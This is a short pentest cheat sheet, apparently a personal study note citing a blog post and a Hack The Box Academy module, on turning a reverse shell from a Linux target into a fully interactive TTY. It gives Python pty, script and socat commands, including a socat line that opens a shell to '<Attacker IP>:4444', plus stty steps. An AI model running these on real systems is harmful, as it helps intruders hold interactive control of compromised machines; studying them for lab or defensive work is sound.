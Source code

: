 https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
https://academy.hackthebox.com/module/77/section/725
# Why am I here?
### Because I have a revshell from Linux target, now I upgrade its capabilities to become fully interactive
# Techniques
## Python

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
## Script trick

```bash
script /dev/null -c bash
```
## Socat

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<Attacker IP>:4444
```

# After these techniques:

## Bash shell in netcat - background the session

```bash
ctrl+z 
```
## Attacker's Terminal (Us):

```bash
echo $TERM
```

```bash
stty size
```
## Getting shell back

```bash
stty raw -echo; fg
```

```bash
export TERM=xterm-256color
```
-> Could be any other based on output of echo $TERM.

```bash
stty rows 27 columns 122
```
-> Row and column numbers depend on output of stty size.
# Tags 

> #Post-Exploitation #Shell-Upgrade